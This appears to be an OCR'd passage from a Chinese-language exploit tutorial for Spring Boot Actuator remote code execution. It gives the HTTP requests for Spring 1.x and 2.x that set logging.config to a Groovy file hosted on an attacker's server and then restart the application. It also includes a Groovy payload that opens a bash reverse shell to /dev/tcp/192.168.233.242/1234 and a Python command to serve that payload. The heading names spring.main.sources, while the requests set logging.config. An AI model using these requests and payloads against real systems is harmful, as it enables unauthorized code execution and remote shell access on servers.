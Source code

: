 

**步骤二：设置 spring.main.sources 属性**

spring 1.x

```
POST /env
Content-Type: application/x-www-form-urlencoded

logging.config=http://your-vps-ip/example.groovy
```

spring 2.x

```
POST /actuator/env
Content-Type: application/json

{"name":"logging.config","value":"http://your-vps-ip/example.groovy"}
```



**步骤三：重启应用**

spring 1.x

```
POST /restart
Content-Type: application/x-www-form-urlencoded

```

spring 2.x

```
POST /actuator/restart
Content-Type: application/json

```





##### 利用实例

编写groovy文件并将其放在http服务根目录下

```
Runtime.getRuntime().exec("bash -i >& /dev/tcp/192.168.233.242/1234 0>&1")
```



使用python开启http服务

```
python2  -m  SimpleHTTPServer  80
```



以POST的方式向/actuator/env请求，设置logging.config为groovy的url地址
